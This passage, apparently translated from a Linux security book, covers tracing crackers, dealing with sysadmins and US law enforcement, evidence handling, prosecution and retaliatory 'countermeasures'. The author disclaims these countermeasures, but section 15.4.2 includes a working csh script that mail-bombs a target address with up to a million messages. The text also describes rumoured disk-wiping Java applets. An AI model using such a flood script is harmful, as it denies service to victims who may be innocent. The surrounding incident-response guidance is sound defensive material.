` traceroute` 程序对于确定到某个节点（例如你的黑客）的路由非常有用。如果无法明显看出到达你系统的路由，这会很有帮助。虽然不太可能，但从你的系统到黑客系统的路由可能与反向路由不同。通过分析离你的黑客最近的几个节点，你可以确定使用哪家公司的、哪个 ISP（互联网服务提供商）或机构来连接她到互联网。所谓“最近”，是指 `traceroute` 结果中它之前的那个节点，再之前的那个节点，以此类推。这些时间的解释在第 506 页的“使用 `ping`”中讨论过。

> 中间路由器的名称通常表明其地理位置。通常，路由器的名称将包含其城市或最近的机场的三字母标识符。这些标识符可以在以下地址解码：
>
> `www.cavu.com/sunset.html`

这些实体是你首先想要联系以试图关闭黑客的对象。要意识到，这些系统中的某些可能已经失守，有些甚至可能处于黑客的管辖之下。你需要使用本节前面讨论的技术来获取这些上游系统的电话号码。`traceroute` 程序比 `ping` 有一个优势，即许多站点现在会阻止 `ping` 请求，因为它可被用于 DoS 和其他攻击。`traceroute` 数据包（通常是高端口的 UDP 数据包）很少被阻止。

` traceroute` 程序有各种有用的标志，特别是在配置错误的系统中。通常，只将目标系统的主机名或数字 IP 地址作为参数提供。然后它会列出每个“跳”`hop`的数据，包括跳号、主机名和 IP，以及最小、平均和最大传输时间。当该主机对一个已超过其生存时间（Time To Life, TTL）的数据包响应 ICMP TIME_EXCEEDED 错误时，就会生成每个跳的数据。有些系统不生成此消息，以避免消耗带宽、出于保密原因，或者仅仅是因为没必要。

如果黑客技术高明，她可能是从她之前已经破解的某个人的系统进入你的系统的。大多数系统管理员（SysAdmin），即使有多年经验，在追踪黑客方面也缺乏多少知识和经验。即使那些有经验的人也经常没有时间。你可能需要帮助受损系统的系统管理员解释他的系统日志。如果受损系统属于一个非常大型的组织，它很可能有一个专门负责计算机安全问题的团队。

## 14.8 相邻系统的结果

## 14.9 最近的一次国际黑客追踪

1999 年，一家大型英国公司防火墙后面的一个系统被用来窃取我们日落数据库中的机场名称、城市和位置信息，用于我们的日落网页（他们通过查询所有三字母组合作为机场 ID 来实现这一点）。我在亚特兰大工作。我们的 Web 服务器位于新罕布什尔州。违规 IP 被追踪到一家英国公司，该电话区号为伦敦区号。

给该域名列出的责任人发送的一封礼貌但坚决的电子邮件就得到了回应。我们收到了许多国际电话，他们对日志进行了全面审计。他们的人员知识渊博，乐于助人，合作起来很愉快。他们表示，如果能找到负责的员工，他会立即被解雇！

我提供了我们详细的破解日志。我将系统时间与精确的实际时间进行了比较，并提供了修正值。同样，他实际上并没有“突破”安全，因为他只是对我们的 Web 服务器发起请求。然而，他确实将服务器负载压得过高，获取了我们数据库的全部内容，并降低了合法用户的服务水平。由于我们网站上没有*使用政策*，因此他的使用行为是否违法尚不明确。我们现在已经制定了这样的使用政策，因此超出政策的行为将被视为未经授权的使用。

不幸的是，这个防火墙后面有许多许多系统，其中一些不属于该公司，而是属于关联公司。在扫描了六个国家/地区的系统日志后，他们没有找到任何匹配项。他们确实怀疑罪魁祸首正在使用属于其关联公司之一在加利福尼亚州的一个系统。因此，他从加利福尼亚州到伦敦，然后又跨大西洋回到新罕布什尔州。（因为我们在数据库中有一些虚假机场来检测盗窃，我们可能最终还能抓住他！）

## 14.10 确保你找到了攻击者

自然，你会希望阻止攻击者对你的系统以及任何其他人的系统造成进一步的损害。你可能也希望他受到惩罚，并且你可能想向他开具一张账单，支付你查找和修复损坏的费用。你可能已经拥有了用于违规系统的 IP 地址。如果没有这个或类似的识别信息，你可能没有任何线索来查明是谁攻击了你。

然而，如果攻击者水平很高，那么这台机器上的账户就被非法入侵并被使用，而其所有者对此毫不知情。因此，你的追踪工作才刚刚开始。首先，你需要确定攻击者是否是此系统的系统管理员（SysAdmin）。并没有绝对的方法来确定这一点。如果该系统属于公司、大学、政府机构或类似组织，那么系统管理员有罪的可能性较低。

> 我知道有两起系统管理员严重滥用权力的案例。一起发生在 1979 年，当时加州大学伯克利分校（University of California at Berkeley）研究用 UNIX 系统的系统管理员使用 `root` 账户访问了我的学生账户，并复制了我的锁屏程序。该程序允许你锁定终端，以防止他人对你的账户做坏事，或登录并占用该（公共）终端。
>
> 随后，该系统管理员声称该程序是其本人创作，并将其整合进伯克利 UNIX 的发行版中，署名作者竟然是他。花了 10 年，他才承认这是剽窃，我因此程序作为我对伯克利 UNIX 的贡献之一终于获得了认可。
>
> 我所知道的另一起系统管理员滥用权力的案例是，美国东南部某家银行的 NT 系统管理员对该银行的网络做了一些不轨之事，最终被解雇。当然，还有更多此类案例，但它们并不常见。

如果系统所有者是 AOL 或 Earth-Link 等在线服务的注册用户，他可能是攻击者，但可能性不大。大多数人使用的密码极易猜测，因此大多数账户只需很少的努力即可被破解。（一种可能的例外是 AOL 的“一次性”免费入门账户优惠，这在攻击者中非常流行。）如果订阅用户通过拨号线路（PPP 或 ISDN）连接，那么除了破解 ISP 之外，攻击者必须通过找到一个开放服务的端口（例如 `telnet`），然后找到漏洞或破解密码来入侵该系统。

如果订阅用户使用电缆调制解调器，攻击者的任务会变得更加容易。这是因为电缆调制解调器服务像大型局域网（LAN）一样运行，许多订阅者位于同一个“LAN 网段”，他们可以嗅探彼此的流量。这使得嗅探密码变得轻而易举。有一位电缆调制解调器用户震惊地发现，他的网段上有其他 150 名用户。（明智的电缆调制解调器用户会对所有保密工作使用 `ssh` 或 HTTPS！）

所有这一切的要点在于，在决定追踪到的入侵账户的“所有者”是否可能就是肇事者时，这完全是你个人的判断。当然，当提供足够的数据时，决策正确的可能性会更高。

最近，我听到了非常响亮的爆炸声，这是我系统在某人试图入侵时发出的声音。我冲到连接的笔记本电脑前查看出了什么事。自动生成的电子邮件（在入侵发生时也会生成）显示，其他某个州的某个账户正在试图入侵，而我向他系统发出的安全 `finger` 请求提供了他的姓名、电子邮件地址，甚至电话号码。

我认为该账户已被入侵并被攻击者使用，因为我没想到攻击者会愚蠢到提供关于他自己的所有这些信息。我给他发了一封礼貌的电子邮件，说明他的账户被用来试图进入我的系统（据我记得是通过 FTP），他的账户可能已被泄露。

他要求提供更多细节，因此我提供了一些日志。他声称自己没有做错任何事。虽然有些人可能会尝试匿名 FTP 并认为这是可以接受的，但我认为这相当于转一下别人家门前的门把手，看是否上锁。我不太确定这两种行为在法律上的界定，但我不喜欢任何一种。

这说明了确定账户的合法所有者是攻击者还是账户已被入侵的难度。如果此人没有承认试图入侵，我会相信他声称对此次入侵尝试毫不知情。

第二天，我坐下来创建了 `blockip` 脚本，该脚本因 `/etc/hosts.allow` 配置文件中的条目而被 TCP Wrappers 调用。

以下是一些值得回答的好问题：

1. 该账户（或完全限定主机名）存在了多长时间？正如本书其他地方所述，AOL 免费入门账户 CD-ROM 经常被攻击者用作无法追踪的“一次性”账户。

2. 在 Web 和 Usenet 新闻组上搜索该账户和主机名会有什么发现？试着把他的电子邮件地址、真实姓名或主机名放入 Usenet 新闻组搜索中，或使用 `google.com`、`altavista.com` 或你喜欢的搜索引擎搜索 Web。几分钟内，你将会了解关于此人的所有信息。

3. 向其 `SysAdmin`、`ISP` 或老板咨询会揭示什么？在此请小心法律问题，如侵犯隐私，并在你所在机构的法务部或人力资源部的协助下进行。

4. 局势的严重性是否值得雇一名私家侦探进行调查？200–3000 美元可以为你带来很多见解。


通常，建议联系你追踪到的入侵尝试所在系统的 `SysAdmin`，而不是联系那个看似被使用的账户的用户。这假设 `SysAdmin` 比用户或已泄露用户账户的攻击者更可靠。系统管理员可以复制并保存攻击者可能尚未销毁的日志文件，并将它们提供给你分析，或替你进行分析。（他可能不愿意将这些文件交给一个完全的陌生人。）

## 14.11 其他系统管理员：他们关心吗？

当你将攻击者追踪到特定系统时，你可能会从该系统的系统管理员那里获得什么帮助？根据我的经验，情况各不相同。公司的规模和类型无关紧要。当然，系统管理员的繁忙程度和公司政策在获得帮助方面起着很大作用。你的态度、接近方式和准备工作将是一个重要因素，入侵的严重性、所犯犯罪的严重程度、他们的责任以及负面宣传的风险也是如此。

如你所知，追踪计算机记录往往耗时，而你寻求帮助的 sysadmin 可能已经工作 overload，并且为此会无偿加班。将这种情况视为两位专业人士共同解决一个问题通常效果很好。系统管理员之间存在专业礼仪，就像不同警察机构中的警官之间一样。此外，自尊心也可能参与其中。你需要表现得外交、随和、非对抗性、非评判性，但也需“实事求是”且坚定。

只有在未看到结果时，你才应诉诸施压。请记住，最有效的压力是不受欢迎的关注的威胁。威胁引入警方（如果局势允许）和媒体通常是最有效的。同样，“我希望我们不必为此麻烦管理层”也很有效，隐含了某人可能被解雇的风险。（与各警察机构合作的内容在 513 页的“让攻击者破墙”中有讨论。）

在美国，违规所在地的州警方可能拥有管辖权，联邦调查局（FBI）和地区治安官办公室或地区警察局也拥有管辖权。如果它们在某个城市或小镇的城市界限内，该警察局也拥有管辖权。尝试所有机构，直到其中一个感兴趣为止。坚持不懈。

为了达到最佳效果，请询问电话信息台最近大城市的 FBI（美国政府联邦调查局）号码，致电他们，并询问负责调查计算机犯罪的探员姓名。让我们假设她的名字是特工 Scully（斯库莉）。

向系统管理员或她的老板（MIS 总监，甚至适当的高管，通常是首席财务官）解释，你其实*并不*想牵连 FBI，但如果无法取得任何进展，你将不得不致电 FBI [城市所在地] 办事处的特工 Scully。表明你已经有这个姓名，说明你已经与该执法机构联系过，并拥有工作关系。

你或许想在使用特工 Scully 的名字之前先与她交谈，并向她解释你追踪到 Pentacorp 的一台电脑上的攻击尝试（或成功）。因此，如果你的目标真的鼓起勇气联系 Scully，她会发现你确实有过联系。特工 Scully 可能会

根据正在进行的调查政策，禁止与其讨论细节。

### 14.11.1 为系统管理员准备你的案件

请准备一份简短的证据摘要，以便快速查看摘要就能牵连其系统。尽量准备一套更完整的日志，因为他们之后可能会要求提供。请回顾第 513 页的“让破解者撞碎岩石”章节，以获取更多处理证据的重要程序说明。未能遵循这些程序有损证据完整性，更会损害你的可信度，尤其是如果你考虑采取法律行动的话。

第 564 页的案例研究“坚持让固执的系统管理员付出代价会有回报”考察了有效展示坚持不懈的例子。

## 第 15 章

让破解者撞碎岩石

本章讨论了让破解者“撞碎岩石”的方法及可能性——即让破解者入狱的可能性。同时也讨论了与执法机构和法院最近的相关经验。本章涵盖了确保你拥有案件所需做的至关重要的事项。包括在遭遇入侵前做好准备以及入侵后对证据的处理。未能做到这些，很可能导致检方认为你缺乏足够的有罪证据而不予起诉，认为案件太小而不屑处理，或者让辩护律师说服法官或陪审团证据不足以定罪。

考察近期的判决和定罪结果，以便你对结果有所预期。揭示作者在此领域的研究成果，其中一些研究包括直接询问你未来可能合作的执法人员。还考察了部分前瞻性美国州的政策和程序。此外，还考察了不同执法机构的准备程度以及部分机构运行所依据的参数。

本章涵盖的主题包括：

- “警察：天网还是 Keystone Kops（笨拙警察）？”见第 513 页
- “起诉”见第 519 页
- “允许非法活动的 ISP 的责任”见第 520 页
- “反罪”见第 521 页

### 15.1 警察：天网还是 Keystone Kops（笨拙警察）？

一些州和联邦机构目前准备非常充分，会进行调查并跟进直至获得定罪。随着破解者活动的增加和互联网重要性的迅速提升，关于计算机犯罪的政策和法律正在迅速变化。请联系具有管辖权的多种执法机构，直到找到那些似乎对你的案件感兴趣为止。

> 自 1989 年的《杜鹃蛋：追踪间谍穿越计算机间谍活动的迷宫》以来，我们已经走了很长一段路。书中描述，劳伦斯伯克利国家实验室（从事机密核研究）一些 UNIX 系统的系统管理员在试图让任何人关心外国间谍试图入侵机密政府系统方面遇到了极大的困难。

获得帮助的量在不同司法管辖区之间，甚至在同一机构的不同办公室之间（例如 FBI）差异巨大。我的准则是，只有当入侵造成的损坏达到数千美元或系统管理员需要花费几天时间进行清理工作，且你拥有良好证据时，才联系“持枪的男女”。即便如此，除了恐吓破解者外，想要让破解者生活痛苦的概率也很低。

#### 15.1.1 FBI

FBI 现在调查所有涉及州际商务的计算机犯罪（这意味着涉及任何接收过来自跨州边界计算机的电子邮件或其他流量的计算机）。根据其他系统管理员的报告经验，FBI 通常仅在对商业或个人实体造成实质性经济损失的普通犯罪中进行重大调查。

这很可能是因为预算有限，而非缺乏意愿。我怀疑引起他们兴趣的损失最低额度可能在 3,000 美元到 25,000 美元之间。触发调查的损坏门槛在涉及可能广泛传播的病毒、银行、间谍活动以及高知名度案件的情况下会更低。FBI 对攻击银行、航空公司或美国政府机构，或破解者试图获取机密数据的案件特别感兴趣。

即使在 FBI 内部，不同的地区办公室对其调查对象的政策以及能力和兴趣程度也各不相同。佐治亚州亚特兰大办公室的政策似乎是考虑那些受害者除了员工时间损失外还遭受了实质性经济损失的破解者事件。作者知道一起案件，FBI 亚特兰大办公室调查了一起盗窃包含专有数据笔记本电脑的案件，尽管硬件本身并不特别值钱。

要明白 FBI 的工作是为美国司法部收集信息以获取定罪。在联邦案件开始时，FBI 会与司法部讨论该案件，只有当司法部认为起诉和定罪有可能时，才会继续进行调查。就像销售员以销售业绩为考核标准、工程师以完成项目为考核标准一样，FBI 和司法部人员也是以定罪数量来评估表现的。

最近，我的一位客户收到了来自亚特兰大办公室 FBI 特别探员的意外造访。似乎他们的另一位我称之为莫里亚蒂教授的顾问，拥有一个追溯到某大学受损事件的病毒副本。莫里亚蒂声称他拥有该病毒副本仅“用于研究”，包括源代码。因为他之前曾勒索我的客户以释放他已计费撰写的内容笔记，我怀疑他的计划不仅仅是研究那么简单。

在每 50 起来自私营行业的计算机犯罪投诉中（硬件简单盗窃除外），只有 1 起进展到嫌疑人被找到并起诉的程度。肯定并非所有这些起诉都导致了定罪。[^a]

[^a]: 这项统计数据是 1998 年的，也是美国司法部有数据可查的最新年份。由*isn@securityfocus.com*于 2000 年 4 月 6 日报道，源自美联社特别委托 CNET News.com 于 2000 年 4 月 6 日发布的内容。

同一篇文章还指出，根据 FBI 和计算机安全研究所的一项研究，调查入侵、修复和安全加固系统的平均成本为 100 万美元。

人们意识到大多数美国州和许多美国以外的国家都有禁止窃取商业秘密的法律。许多人并不知道 1996 年《美国经济间谍法》。这部法律使窃取商业秘密成为联邦犯罪。由于某种原因，这部法律很少被使用。然而，它在 2000 年首次被用于硅谷，对谢罗（Say Lye Ow）提起联邦起诉，指控其从英特尔窃取商业秘密，涉及其即将推出的 64 位微处理器芯片，以便他们能与 Sun、HP 和 IBM 竞争。[^1]

你所在地区的 FBI 办公室电话号码可通过最近大城市的电话信息服务获取。当地 FBI 联系信息可以从以下地址下载：

`www.fbi.gov/contact/fo/fo.htm`

FBI 的总机号码是 +1 202-324-3000。

#### 15.1.2 美国特勤局

别忘了还有其他可能具有管辖权的联邦机构。美国特勤局将调查涉及信用卡欺诈或非法发布/泄露信用卡号码的计算机入侵。他们还调查“接入设备欺诈”案件。这包括与在线银行和在线购物相关的密码欺诈使用。

当我在为此书进行调研时致电华盛顿特区的总机号码，我在至少六个人之间被转接，给我的一些电话号码已停机，最后在半小时的长途电话后，我留在了公共事务探员的语音信箱里。在此期间，多次解释说该机构有“统一声音政策”，这意味着大多数员工不允许接受采访。虽然我觉得这很令人沮丧，但如果你的组织托管电子商务并且遭受了客户信用卡号码的重大盗窃，你可能希望联系他们。

[^1]: 由《圣何塞水银新闻》于 2000 年 3 月 30 日报道。硅谷很幸运能拥有如此优秀的报纸。

美国特勤局的主电话号码是 +1 202-406-5800，其金融犯罪部门的电话号码是 +1 202-406-5850。他们的网站列在此处，并包含通往其众多地方办事处电话号码的链接。要理解，他们的主要职责是保护美国总统以及打击货币伪造。

`www.treas.gov/uss/`


然而，我很高兴地说，亚特兰大地方办事处是高效的典范。接电话的特工非常乐于助人且知识渊博。该特工解释说，将被调查的最小损失金额因司法管辖区而异，在亚特兰大这样的大型司法管辖区中，这一金额可能在 $50,000 到 $100,000 之间，而在较小的司法管辖区中，可能仅为 $10,000。显然，你或我的个人信用卡在达到这一门槛之前就会“刷爆”，但遭受大规模信用卡数据盗窃的电子商务网站应当联系特勤局。他们在调查金融犯罪方面与联邦调查局（FBI）拥有共同责任。

## 15.1.3 其他联邦机构

如果涉及军用计算机，请联系管辖该军种的军事部门。是的，陆军、海军、空军、海军陆战队和海岸警卫队都有各自独立的军事警察机构。如果某人试图在美国境外获取美国的机密数据，中央情报局（CIA）具有管辖权。国家安全局（NSA）有一个专门分支，致力于帮助其他组织——主要是美国政府民事机构和美国军队的组成部分——保障其计算机安全。他们可能对涉及这些计算机的案件感兴趣。在某些情况下，酒精、烟草和火器管理局将具有管辖权。

大多数其他国家现在也会调查涉及其境内系统或犯罪者的计算机犯罪。

## 15.1.4 州级机构

### 15.1.4.1 佐治亚州

美国各州警的管辖范围和执法能力差异巨大。在一些州，他们只是在州际公路上开具超速罚单。佐治亚州很幸运，拥有佐治亚州调查局（GBI），该局与 FBI 合作。与 FBI 类似，GBI 的使命是为那些规模不足以设立专门部门来解决某些类型犯罪的地方警察力量提供专业援助。

当我致电 GBI 的主办公号码并询问关于计算机犯罪的事务时，她给了我一个特殊部门的号码。当我拨打那个号码时，与我交谈的女士知识渊博，并且很乐意与我交流。她解释了他们如何拥有处理 `Linux`、`UNIX`、`Windows` 和 `Mac` 的经验，他们会从疑似计算机中移除硬盘，复制该硬盘，然后在确保原始数据不被意外损坏的情况下对副本进行操作。她继续解释说，他们拥有用于分析硬盘信息的专门程序，并在必要时常规使用在特定领域拥有专长的外部顾问。很明显，如果涉及 `Linux`、`VMS` 或其他系统，他们都能应对自如！在我撰写这段文字时，他们正在处理一桩重谋杀案。

我问她他们处理过哪些类型的犯罪。令人遗憾的是，她说针对儿童的犯罪很常见，跟踪狂犯罪也是如此。在一桩跟踪狂案件中，一名男子在一个在线聊天室认识了一名女子，后来将其谋杀。我曾以为这种事只发生在电影里。不要让这一事件阻碍你：我在网上遇到了我的灵魂伴侣。为了保护她，我们的第一次约会她带着她的兄弟——一名前警官——一起来了。

GBI 的那位女士还讲述了一个案件，一名拥有自己 `UNIX` 机器的黑客在制造麻烦。他们能够追溯到问题源头是他，并将证据整理到足以让法官信服的程度，法官随后签发了搜查令。当地警察部队随后扣押了该黑客的计算机，GBI 随后对其进行了分析。我提出了一个场景，即某人通过互联网入侵我的计算机，并询问他们是否会调查。她说这种情况非常可能，并建议在此类情况下一定要联系他们。

### 15.1.4.2 北卡罗来纳州

一名心怀不满的司机对该州的机动车辆管理局（DMV）发动了拒绝服务（DoS）攻击。他没有试图隐藏自己的身份。该州在一天内便追踪并逮捕了他！

### 15.1.4.3 纽约州

纽约州检察长办公室现在设有一个专门部门，负责互联网犯罪，包括电子商务和隐私问题。在我撰写这段文字时，他们正在调查 `DoubleClick Inc.` 等公司。

## 15.1.5 当地警察

普遍的经验是，除了最大的几个城市外，警察没有接受过应对或理解计算机犯罪的培训。其他处理过此事的系统管理员（SysAdmins）表示，基本上，你必须完成所有收集证据、分析证据并将其整理成文的工作，以便让一位甚至不知道如何换灯泡的 60 岁老法官也能理解，*也许* 他们才会追查此案。如果你的组织是政府机构的一个分支或一家大型公司，更有可能卷入此类事件。我在这个领域的简短研究证实了这一点。

## 15.1.6 准备你的案件

这是引入你组织法律顾问的好时机。记住，律师对计算机的了解可能并不比你了解开颅手术多。他们的专业领域几乎肯定是合同、公司法和人力资源。

> 准备一份简短的证据摘要，让非技术人员快速检查后就能看出黑客系统的牵连。试着使用图表，让人能说：“嗯哼，我能跟上。” 你甚至可以通过向组织中一位非系统管理员的合适人员（在获得管理层事先批准后）展示这份摘要，来测试其可理解性。

你准备的摘要可能包括日志文件的注释部分，显示一个具有特定数值 IP 地址的计算机试图通过 `telnet` 非法入侵你的计算机但未成功，然后试图通过 `FTP` 但未成功，接着试图利用一个众所周知的 `NFS` 缓冲区溢出漏洞，并成功入侵。（你知道你本应该关闭 `NFS`。）日志随后可能显示，你的市场总监的最大客户列表通过 `FTP` 被复制到了该系统。然后你可以显示，对该 IP 进行反向 DNS 查找（如第 501 页“使用 `nslookup` 追踪数值 IP 地址”所述），指向一家新兴竞争对手的域名，而你最近解雇的一名工程师去了那里。请记住，你希望准备好两份材料：一份是法律人员可以在几分钟内审阅和理解简短证据摘要，另一份是证明有罪的详细证据，且被告方提出的任何“专家”都无法合法地反驳这些证据。

诚实地评估你的证据。如果证据薄弱，重新考虑大喊“狼来了”的想法。如果该竞争对手只是在你的系统崩溃前不久执行了一次 `ping`，可能只是在测试其互联网连接是否中断。这个 `ping` 将被视为非常薄弱的间接证据，单独来看是不可接受的。大多数人认为 `ping` 服务是一项公共服务，任何人都可以使用（只要频率不高到构成拒绝服务攻击）。

> 许多人认为检查随机系统是否提供匿名 `FTP` 是可以接受的行为，一些系统管理员也持相同观点。当然，如果某人随后尝试利用除最新版本外都存在的 `FTP` 漏洞，或尝试下载 `/etc/passwd`，这将被视为非法破解行为。

请参考第 106 页的“升级 `WU-FTPD`”、第 138 页的“`FTP`”以及第 41 页的“影子 MD5 密码以增强安全性”，以防范这些问题。有些人可能认为，有人检查 `telnet` 是否提供“`guest`”账户是合法行为。为这些行为报警可能会让某人被贴上像那个喊“狼来了”的小孩一样的标签。然而，这可能是一个理由，联系发起这些连接的公司，要求告知相关人员进行停止。

## 15.1.7 追踪被盗数据

如果你将入侵点追溯到竞争对手（对于商业公司而言），要理解入侵可能是某个个人未经管理层授权自行进行的。评估该公司已经表现出的总体道德水准以及被抓获的风险（不良 publicity、诉讼和刑事调查）与数据潜在价值之间的权衡。如果看起来可能是某个人单独工作，他的公司甚至可能不知道他的“绝妙想法或代码”是被窃的。

他的公司对被盗数据的使用不会比你对它更感兴趣。他们可能对帮助你追踪入侵者并销毁他们的……非常感兴趣。

数据副本以及被其污染的内容。如果这种情况可能适用，建议向管理层提出，让他们联系另一家公司的系统管理员，并共同解决该问题。大多数系统管理员（SysAdmin）都非常重视其系统的安全，会希望彻底查明此类问题的根源。

> 如果公司规模足够大，拥有自己的计算机安全部门，这些人会非常“公事公办”，并且可能拥有很大的职权。

## 15.1.8 证据保全

辩护律师常用且往往奏效的策略之一是质疑证据链。这意味着，如果从证据最初生成到其在法庭上出示期间的任何环节，都存在有人可能对其进行篡改的可能性，那么该证据就被视为受到污染。在这种情况下，辩护律师（ barrister ）可能会说服法官排除该证据，或者至少让法官或陪审团对证据的可靠性产生怀疑。

其实际影响在于，所有证据要么必须安全上锁，要么必须随时处于监护之下。仅仅将其锁在您的办公桌里是不被接受的，因为任何普通人都能轻易打开办公桌锁。如果在“据称”发生事件与您首次查看日志文件之间存在延迟，辩护律师会声称其他黑客可能植入了数据，并指称其为伪造。

请准备好通过日志文件或其他证据来反驳这种关于证据被污染的声称。实现前文提到的功能，即向寻呼机发送黑客系统的名称和数字 IP 地址，是对“日志可能被事后篡改”这类声称的优秀回应。寻呼公司也可能保留寻呼记录。（参见第 358 页的“自动寻呼示例”。）

## 15.2 起诉

将“那个混蛋关进监狱”当然是令人非常满足的，但这很难实现，并且可能会占用你大量的时间。如果你的管理层对此不感兴趣，你甚至可能因为未专注于管理系统等公司事务而面临被解雇的严重风险。

> 当然，你需要确定公司是否“希望息事宁人”，很多公司都是这样。大多数公司和政府机构认为，入侵事件的公开报道暗示安全存在缺陷，这会吓跑客户，或导致外部机构对该机构及其管理层进行调查。因此，“修复问题但保持低调”通常是其政策。

在这种情况下，给肇事者选择“停止并警告”或“逮捕”的可能说服她离开你，但要保持高度警惕的监视。（如果有人试图进入我们的系统，`Adaptive TCP Wrappers` 软件会向 `/etc/hosts.allow` 添加一条记录，永久禁止其访问所有服务。不提供 UDP 服务。对于支持 UDP 服务的站点，可以使用 `IP Chains` 来禁止他们的访问。）

现实地说，除非造成了实际伤害，否则试图起诉不值得花费数天时间收集证据、向你的老板、他的老板、公司律师、警官、警探、地区检察官办公室以及法官陈述情况，然后可能看着罪犯因缓刑而逃脱，或者因为他聘请了优秀律师且 DA 办公室更关注新的谋杀案而被判无罪。


当然，如果相关权力机构愿意配合，让他失业或被学校开除可能是更好的选择。但许多人并不愿意。作者震惊地看到，源自休斯顿大学（德克萨斯州）学生账户的一次有害且恶毒的随机攻击，几乎没有得到其系统管理员或大学警察的“理会”。最终的解决方式是“该学生被谈话教育”。

如果你确实进入法庭程序，请注重展现整洁的形象。如果你是男性，考虑穿西装，剪短头发或扎起来，并取下尽可能多的耳环。女性通过表现得“端庄得体”会给留下好印象。你可以通过做新的纹身或穿孔来庆祝在法庭上的幸存！

在法庭上，就像在其他场合面对“法律人士”时一样，请花时间考虑问题及其任何回答的含义。预计被告律师会尽力设陷阱或激怒你，让你看起来愚蠢。这是他的工作。不要让他动摇你，或开始怀疑你的能力或证据的质量。在你心中，你本应已经判断了罪犯的罪责，法庭程序应只是一个形式。如果案件已公开报道，要预期会有许多其他黑客试图入侵并尽可能最大程度地破坏你的系统。

### 15.3 允许非法活动的 ISP 的责任

根据现行美国法律，ISP 在适用于普通电信运营商（“电话公司”）的法律法规和出版商之间反复摇摆。作为普通电信运营商，电话公司对其电话线路上传递的内容不承担责任。例如，如果你打电话给你邻居的老板，谎称你看到邻居在他妻子外出期间接待了一名已知妓女，电话公司*不*对你刚刚实施的诽谤行为承担责任。它只是传递了信息。

然而，如果你把这个谎言告诉当地报纸，而报纸在没有对声称进行合理核查的情况下进行了报道，该报纸*可能*构成诽谤罪。（诽谤是口头向他人传播有害的谎言，而书面诽谤是在印刷品中传播有害的谎言。这位作者不确定使用计算机属于哪一类，尽管他怀疑它属于书面诽谤。）

区别在于，“作为普通电信运营商”编辑内容以排除诽谤、淫秽内容或其他非法事项并不是电话公司的职责。2000 年，美国法院裁定，如果 ISP 不编辑其处理的网站或电子邮件内容，则被视为普通电信运营商，免于诽谤诉讼。（美国国会曾有一项法案试图改变这一点，但幸好该法案未获通过。）

> 如果 ISP 开始控制内容，例如禁止包含诽谤或裸露图片的网页，它就有风险被视为出版商，从而有义务极其谨慎地永远寻找并立即删除诽谤、淫秽及所有形式的非法内容。

### 15.4 反制行为

我们现在研究某些传闻中已被使用的其他反制行为。我没有使用过这些方法，也不提倡使用它们。我仅仅为了本书的完整性而报道它们，就像新闻报道可能报道恐怖分子如何制造炸弹一样。

#### 15.4.1 法律问题

其中一些技术可能是非法的，再次强调，我不提倡使用它们。如果你使用了它们，我不想知道，因为根据法律，我会被有义务报告任何关于可能非法活动的知悉信息。如果你仍选择这样做，你需要绝对确定那些攻击似乎源自的账户“所有者”确实发起了攻击。有能力的黑客很少使用自己的账户。入侵另一个系统并利用该系统对第三方（如你的系统）发起攻击要安全得多。可能存在一长串被入侵的系统列表，可能很难知道哪一个是真正的黑客。此外，特别是使用 UDP 协议时，使用伪造的源地址让攻击看起来来自一个完全未参与的系统也很容易。

> 如果你对用于攻击你的被入侵系统进行报复，你可能会攻击无辜的一方。在这种情况下，你将构成黑客攻击行为。当局可能不太愿意忘记你的行为。

#### 15.4.2 大量垃圾邮件

对挑衅者发送大量垃圾邮件在互联网上非常常见。经常地，在 Usenet 新闻组中，无礼或侮辱他人的人会受到几十封邮件的训斥。有些人可能会使用 shell 脚本生成大量电子邮件，以便挑衅者从她的 POP 服务器上下载花费很长时间。

许多 POP 客户端坚持按顺序下载所有电子邮件，然后才删除其中的任何一封。例如，EarthLink 会在 12 小时后终止某人的 PPP 连接。典型的拨号连接速度为 28kbps。在串行数据计算中，每字节有 10 个比特，这意味着每秒 2800 字节，乘以每小时 3600 秒，再乘以 12 小时。总计为 118MB。

因此，如果你能向 EarthLink 客户的邮箱中注入如此多的垃圾邮件，他在连接被断开之前将无法从服务器下载并删除这些邮件。他唯一的替代方案将是联系 ISP，让他们删除他的*所有*电子邮件。（我已修改了我的 `popclient`，使其可以下载用户指定数量的邮件，然后从服务器上删除这些邮件。我在邮件监视程序中以循环方式调用它，因此我不会遇到这个问题。）下面的脚本可用于此攻击。

假设你的电子邮件内容在文件 `foo` 中。你可以让脚本在邮件之间休眠 10 秒或一分钟，以便将垃圾邮件与他可能收到的任何合法电子邮件混合在一起，导致它们在“大清理”中被 ISP 删除。

```c
#!/bin/csh -f
set i=0
loop:
	Mail cracker12345@aol.com < foo
	@ i++
	echo $i
	if ( $i >= 1000000 ) exit
goto loop
```

当然，这可以被追溯到发送者的账户。许多黑客使用 AOL 的“一次性”账户来为此目的。当然，窃取大学账户也很常见。在“老派”时期，你只需使用 `rmail` 代替 `Mail`，并伪造邮件头，显示该邮件声称通过的虚假系统链。类似地，每个人最喜欢的就是从声名狼藉的 `kremvax.com` 发出的、据称来自苏联领导人的虚假新闻帖。如今，由于大多数系统都仔细记录所有流量，这种诡计将行不通。

> 再次说明，在美国讨论攻击技术是合法的；实际上这样做可能不合法，并且肯定会给你的账户和工作带来风险。（请记住，如果 *《碟中谍》* 团队的任何成员被抓，政府将声称对此事不知情或没有参与。）

### 15.4.3 死亡之 Ping

1997 年，当大多数人首次听说“死亡之 Ping”时，几乎所有支持 IP 协议的计算机和其他设备都易受其影响并会崩溃。很可能那些值得采取对策的黑客拥有能够抵御“死亡之 Ping”的最新软件，但这肯定会带来令人不快的后果。

当“死亡之 Ping”首次公开广为人知时，尽管 Linux 是“不支持”的，但它却是世界上第一个提供“死亡之 Ping”修复补丁的平台，该补丁可在网络上免费下载，耗时仅令人惊叹的四小时！主要的 UNIX 供应商和其他商业机构花费了数天甚至数周时间才提供修复补丁。

许多 Linux 的批评者（在 Linux 的低劣竞争对手中拥有经济利益）声称，公司应该远离 Linux，因为它“不受支持”。这是胡说八道！

### 15.4.4 恶意的 Java 小程序

有传言称，一些大型实体会在其网页上放置恶意的 Java 小程序，当它们被黑客的系统调用时，它们会识别出这一点，并继续重新格式化黑客系统中的磁盘，或采取其他同等严重的行动。

已有记录表明，美国军方中的一些人已非法违反军事政策，针对美国平民使用恶意 Java 小程序。毫无疑问，这些人受到了严厉纪律处分，但军方很有可能拥有在战时攻击外国的能力。

Java 程序员应该能够创建这样的小程序，通过 IP 地址或其入侵技术来识别黑客。当然，本书前面讨论的技术允许自动识别入侵尝试，但再次强调，作者和出版商都不提倡非法活动。

